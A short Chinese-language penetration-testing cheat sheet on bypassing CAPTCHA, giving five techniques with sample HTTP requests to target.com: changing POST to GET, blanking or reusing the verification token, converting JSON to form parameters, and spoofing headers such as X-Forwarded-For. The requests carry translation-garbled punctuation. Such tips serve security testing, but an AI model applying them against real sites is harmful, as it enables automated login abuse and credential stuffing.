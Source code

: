 ## 绕过验证码
1.尝试更改请求方法，例如POST到GET
```
POST / HTTP 1.1
Host：target.com
[...]

_RequestVerificationToken = xxxxxxxxxxxxxx＆_Username = daffa＆_Password = test123
```

将方法更改为GET
```
GET /？_ RequestVerificationToken = xxxxxxxxxxxxxx＆_Username = daffa＆_Password = test123 HTTP 1.1
Host：target.com
[...]
```

2.尝试删除验证码参数的值
```
POST / HTTP 1.1
Host：target.com
[...]

_RequestVerificationToken =＆_ Username = daffa＆_Password = test123
```

3.尝试重用旧的验证码
```
POST / HTTP 1.1
Host：target.com
[...]

_RequestVerificationToken = OLD_CAPTCHA_TOKEN＆_Username = daffa＆_Password = test123
```

4.将JSON数据转换为普通请求参数
```
POST / HTTP 1.1
Host：target.com
[...]

{“ _RequestVerificationToken”：“ xxxxxxxxxxxxxx”，“ _ Username”：“ daffa”，“ _ Password”：“ test123”}
```
转换为正常要求
```
POST / HTTP 1.1
Host：target.com
[...]

_RequestVerificationToken = xxxxxxxxxxxxxx＆_Username = daffa＆_Password = test123
```

5.尝试使用自定义标头绕过验证码
```
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
```
